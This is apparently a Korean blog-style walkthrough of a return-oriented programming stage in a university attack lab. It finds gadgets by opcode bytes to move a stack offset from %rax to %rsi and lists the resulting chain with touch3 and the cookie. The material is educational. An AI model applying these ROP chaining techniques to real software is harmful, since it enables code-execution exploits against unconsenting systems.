 ```
mov %rsp, %rax
mov %rax, %rdi

lea (%rdi, %rsi, 1), %rax
mov %rax, %rdi
```

이제 저 사이에 %rsi로 세세한 주소를 넣어주는 계산을 해야 한다.
이때 값은 스택에 저장한 것을 pop으로 추출해서 사용하면 된다.
pop은 58~5f이므로 검색해보면 쓸 수 있는 것은 58뿐이다.
이 또한 phase4에서 <addval_219>로 만들었으므로 생략하겠다.
결국 우리가 사용할 수 있는 것이 `pop %rax` 뿐이다.

문제는 앞서 살펴봤듯이 %rax에서 %rsi로 바로 가는 계산이 없다는 것이다.
다행히도 스택에서 pop할 숫자가 그리 크지 않을 테니 movl 명령을 사용해도 된다.
`movl %eax, %esi`가 필요하지만 아쉽게도 존재하지 않는다.
그러므로 앞서 했듯이 데이터를 다른 레지스터를 거쳐서 전달해야 한다.
`movl %eax, [?]`, 중에 존재하는 것을 찾아보자.
해당 명령은 89 c0 ~ 89 c7이다.
그 중 존재하는 것은 %edx(89 c2)다.

-   movl %eax, %edx(89 c2): <getval_481>, <addval_487>

다음으로 `movl %edx, [?]`중 존재하는 것을 검색해보자.
89 d0 ~ 89 d7을 찾아보면 가능한 것은 89 d1뿐이다.

-   movl %edx, %ecx(89 d1): <getval_311>, <getval_159>

다음으로 `movl %ecx, [?]`를 찾는다.
89 c8 ~ 89 cf를 찾으면 89 ce가 가능하다.

-   movl %ecx, %esi(89 ce): <addval_436>, <addval_187>

이 과정을 종합하면 결국 %rax에서 %rsi로 값을 옮겨주는 것이 가능하다.

여기까지 종합하면 코드는 아래처럼 된다.

```
mov %rsp, %rax
mov %rax, %rdi

pop %rax
movl %eax, %edx
movl %edx, %ecx
movl %ecx, %esi

lea (%rdi, %rsi, 1), %rax
mov %rax, %rdi
```

이제 여기서 touch3, cookie, 주소 조정값(%rsp에 더해줄 값)의 위치도 적어보면 아래처럼 된다.

```
mov %rsp, %rax
mov %rax, %rdi
pop %rax
주소 조정값
movl %eax, %edx
movl %edx, %ecx
movl %ecx, %esi
lea (%rdi, %rsi, 1), %rax
mov %rax, %rdi
touch3
cookie
```
